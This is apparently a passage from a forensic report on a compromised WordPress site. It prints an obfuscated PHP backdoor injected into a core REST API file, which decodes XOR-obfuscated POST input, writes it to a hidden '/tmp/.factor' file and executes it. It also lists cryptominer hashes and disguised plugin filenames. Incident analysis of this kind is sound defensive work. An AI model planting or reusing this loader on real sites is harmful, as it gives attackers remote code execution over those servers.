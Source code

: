 **Type 3: WordPress Core Injection**
```php
// File: wp-includes/rest-api/endpoints/class-wp-rest-post-statuses-controller.php (Line 1)
<?php
if(count($_POST) > 0 && isset($_POST["object"])){ 
    $dchunk = array_filter(["/tmp", getcwd(), "/var/tmp", ...]);
    $rec = hex2bin($_POST["object"]);
    $symbol = '' ;
    $p = 0;
    while($p < strlen($rec)){
        $symbol .= chr(ord($rec[$p]) ^ 61);
        $p++;
    }
    for ($res = 0, $hld = count($dchunk); $res < $hld; $res++) {
        $item = $dchunk[$res];
        if ((bool)is_dir($item) && (bool)is_writable($item)) {
            $component = implode("/", [$item, ".factor"]);
            if (@file_put_contents($component, $symbol) !== false) {
                include $component;
                unlink($component);
                exit;
            }
        }
    }
}
```
**Functionality:**
- Infected WordPress core file (loaded on every request)
- Receives commands via POST["object"]
- Creates `/tmp/.factor` for code execution
- XOR obfuscation with key 61

#### B. Cryptocurrency Miners

**File Signatures:**
- **ELF 32-bit LSB executable, Intel 80386, statically linked, stripped**
  - BuildID: `cbed0414c40117ae31080f832fe55cc8d937a192`
- **ELF 64-bit LSB executable, x86-64, statically linked, stripped**
  - BuildID: `2cc2f89e3cfe3dd8d72df46bb1b42cac64464b71`
  - BuildID: `92231a800943c22a59cdca97067f0c44bd4e1207`

**Distribution Pattern:**
Miners were disguised with random 8-character filenames in legitimate plugin directories:
```
akismet/_inc/lh9jmi6v                    [Perl script]
akismet/_inc/rtl/pygcydps                [Perl script]
mpa-event-status-updater/ba08r9rv        [ELF 32-bit]
mpa-event-status-updater/e6pxvn94        [ELF 64-bit]
wp-mail-smtp/d2at691j                    [ELF 64-bit]
updraftplus/css/64soqtzz                 [ELF 32-bit]
... (20+ total files)
```
